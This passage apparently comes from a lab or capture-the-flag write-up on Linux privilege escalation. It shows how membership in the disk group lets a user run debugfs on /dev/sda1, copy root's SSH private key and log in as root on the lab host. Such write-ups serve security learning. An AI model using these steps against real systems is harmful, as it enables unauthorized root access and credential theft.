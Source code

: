 Running `linpeas.sh` reveals that user `yossi` is part of disk group
![[Pasted image 20240904172838.png]]

Privilege escalation is possible via exploiting disk misconfigurations in the system. This disk group allows full access to a user to any blocked devices within /dev/ and since /dev/sda1/ is a general global file-system. This group has full read-write privileges to this device

```bash
ls -la /dev/
```
![[Pasted image 20240904173034.png]]

- Display all available partitions
```bash
df -h
```
![[Pasted image 20240904173128.png]]

`debugfs` can be used to enumerate entire disk with root privileges
```bash
debugfs /dev/sda1
```

Now we can just explore the filesystem using regular Linux commands
![[Pasted image 20240904173510.png]]

- Grabbed SSH private key and logged into the system as user root
```bash
ssh root@10.10.10.73 -i root.key
```
